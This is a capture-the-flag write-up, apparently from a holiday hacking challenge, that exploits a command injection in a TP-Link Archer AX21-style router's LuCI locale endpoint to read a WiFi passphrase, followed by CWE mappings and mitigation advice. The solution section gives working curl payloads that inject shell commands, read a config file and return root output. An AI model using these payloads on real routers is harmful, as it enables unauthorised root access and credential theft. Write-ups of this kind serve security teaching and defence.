

# Dosis Network Down
Difficulty: <span style="color:red">❄ ❄</span> ❄ ❄ ❄  
Drop by JJ's 24-7 for a network rescue and help restore the holiday cheer. What is the WiFi password found in the router's config?

## Hints
### Version
I can't believe nobody created a backup account on our main router...the only thing I can think of is to check the version number of the router to see if there are any...ways around it...
### UCI
You know...if my memory serves me correctly...there was a lot of fuss going on about a UCI (I forgot the exact term...) for that router.

## Solution
Upon accessing the URL `https://dosis-network-down.holidayhackchallenge.com/`, I observed a landing page displaying the router model and firmware version:


Searching for known vulnerabilities associated with this specific model and firmware, I discovered [Tenable Research Advisory TRA-2023-11](https://www.tenable.com/security/research/tra-2023-11). This advisory details an unauthenticated command injection vulnerability affecting the TP-Link Archer AX21 (AX1800).

I confirmed the command injection by executing a payload via `curl`. Interestingly, the exploit flow required sending the request twice as the first request executes the command, and the subsequent request retrieves the output:
```bash
thedead@maccos 2025-14-Dosis-Network-Down % curl 'https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country' -d 'operation=write&country=$(id)'
OK%
thedead@maccos 2025-14-Dosis-Network-Down % curl 'https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country' -d 'operation=write&country=$(id)'
uid=0(root) gid=0(root) groups=0(root)
```

The presence of `luci` in the URL path strongly suggested the router was running a firmware based on [OpenWrt](https://openwrt.org/) (which uses the [LuCI web interface](https://github.com/openwrt/luci)). Assuming a standard OpenWrt file structure, I decided to target `/etc/hostapd.conf`, a common location for wireless access point configuration files.

I injected a `cat` command to read the file:
```bash
thedead@maccos 2025-14-Dosis-Network-Down % curl 'https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country' -d 'operation=write&country=$(cat etc/hostapd.conf)'
OK%
thedead@maccos 2025-14-Dosis-Network-Down % curl 'https://dosis-network-down.holidayhackchallenge.com/cgi-bin/luci/;stok=/locale?form=country' -d 'operation=write&country=$(cat etc/hostapd.conf)'
# DOSIS-Link AX1800 Web Interface Configuration

interface=default_radio0
driver=nl80211
ssid=DOSIS-247_2.4G
hw_mode=g
channel=6
wmm_enabled=1
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=SprinklesAndPackets2025!
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
rsn_pairwise=CCMP
country_code=US
ieee80211n=1
ht_capab=[HT40][SHORT-GI-20][SHORT-GI-40]
```

The output revealed the `wpa_passphrase` successfully. The solution for the challenge is `SprinklesAndPackets2025!`.

## Dissecting the attack

<table>
     <thead>
         <tr>
             <th style="text-align:center">Phase</th>
             <th style="text-align:center">Vulnerability (CWE)</th>
             <th style="text-align:center">Mitigation</th>
         </tr>
     </thead>
     <tbody>
         <tr>
             <td rowspan="1"><strong>1. Exploitation</strong><br/></td>
             <td style="border: 1px solid #ddd; padding:10px;"> <strong>CWE-78</strong><br/>Improper Neutralization of Special Elements used in an OS Command<br/><em>(Command Injection)</em> </td>
             <td style="background-color:#14532d; color:white; border-radius:5px; padding:10px; border: 2px dashed #22c55e;"> <strong>Input Validation</strong><br/><em>(Avoid Shell Execution / Sanitize Input)</em> </td>
         </tr>
         <tr>
             <td rowspan="1"><strong>2. Disclosure</strong><br/></td>
             <td style="border: 1px solid #ddd; padding:10px;"> <strong>CWE-312</strong><br/>Cleartext Storage of Sensitive Information<br/><em>(WiFi Password in Config)</em> </td>
             <td style="background-color:#14532d; color:white; border-radius:5px; padding:10px; border: 2px dashed #22c55e;"> <strong>Data Protection</strong><br/><em>(File Permissions / Encryption)</em> </td>
         </tr>
     </tbody>
 </table>

### Mitigation via Patching (CWE-78)
**Vulnerability:** The router's web interface (LuCI) contains a logic flaw that passes user input directly to a system shell. This is a software defect in the firmware provided by the vendor.  
**Fix:** Implement a rigorous Patch Management lifecycle. For external hardware appliances, administrators rarely modify the source code directly. Instead, security relies on the vendor's ability to release timely firmware updates.  
**Strategy:**
- Inventory: Maintain an active inventory of firmware versions.
- Monitor: Subscribe to vendor security bulletins (e.g., OpenWrt Security Advisories).
- Apply: Decommission devices that have reached End-of-Life (EOL) and no longer receive security patches.  

**Impact:** Eliminates the root cause of the RCE. By applying the vendor patch, the input validation logic is updated to reject malicious shell characters, neutralizing the attack vector completely.

### Mitigation via Hardware Selection (CWE-312)
**Vulnerability:** The WiFi password was stored in cleartext in `/etc/hostapd.conf`. This is typical for consumer-grade hardware where the filesystem resides on a simple flash chip. If the OS is compromised (as it was here), or if the flash chip is physically desoldered, the secrets are exposed.  
**Fix:** Prioritize Secure Hardware Selection. Choose enterprise-grade appliances that utilize a Trusted Platform Module (TPM) or a Secure Enclave (TEE).  
**Secure Architecture:**
- Encryption at Rest: The configuration filesystem should be encrypted, with the decryption key sealed in the TPM.
- Key Storage: Sensitive keys (like WiFi PSKs) should not sit in a text file. They should be loaded directly into the wireless chipset's secure memory or managed via a hardware-backed keystore that does not allow export to the userland OS.  

**Impact:** Even if an attacker achieves RCE, they cannot simply cat a file to retrieve the credentials because the secrets are isolated in hardware or encrypted at rest.